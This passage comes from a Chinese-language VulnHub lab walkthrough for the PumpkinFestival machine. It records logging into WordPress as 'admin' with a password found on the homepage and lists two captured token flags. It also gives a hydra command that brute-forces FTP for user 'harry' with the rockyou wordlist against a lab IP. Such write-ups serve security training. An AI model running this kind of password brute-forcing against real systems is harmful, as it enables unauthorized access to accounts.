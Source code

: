 通过之前 wpscan 的扫描结果,还存在一个用户 admin ,最开始的网站主页最底下有个 Alohomora! 就是 admin 的密码


登录后发现2处 token

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinFestival/11.png)

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinFestival/12.png)

```
PumpkinToken : f2e00edc353309b40e1aed18e18ab2c4
PumpkinToken : 06c3eb12ef2389e2752335beccfb2080
```

接下来爆破 FTP,主页中提到过一个用户名 harry
```bash
hydra -l harry -e nsr -P /usr/share/wordlists/rockyou.txt ftp://192.168.141.130
```
